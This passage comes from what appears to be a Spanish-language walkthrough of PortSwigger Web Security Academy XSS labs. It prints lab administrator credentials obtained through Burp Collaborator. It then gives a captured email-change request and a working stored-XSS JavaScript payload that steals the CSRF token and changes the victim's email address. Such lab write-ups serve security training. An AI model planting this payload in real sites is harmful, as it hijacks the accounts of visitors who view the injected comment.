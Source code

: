 ![](img7.png)

Entonces, verificamos el **burp collaborator** y obtenemos las credenciales.

![](img8.png)

```
administrator:ef6gbovly0a77qvxul8i
```

Entonces, nos logeamos con las credenciales y completamos el laboratorio.

![](img9.png)

## 4. Lab: Exploiting XSS to perform CSRF

```
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
```

Antes de todo necesitamos entender como funciona el cambio de contraaeña, así que cambiaremos la contraseña de nuestra cuenta **wiener** para conocer los parametros y la ruta a donde se debe enviar.

```
POST /email/change-email HTTP/1.1
Host: ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
DNT: 1
Connection: close
Referer: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net/email
Cookie: session=aFgfuzayL8jK1xA5jr3j6Z1fQvH6Kbsv
Upgrade-Insecure-Requests: 1

email=a%40a.a&csrf=6f8A1jOKIzioIeAGRZayu2KCRH2q0mTf
```

Entonces, realizaremos un payload XSS con los parametros del paquete anterior:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=a@a.a')
};
</script>
```
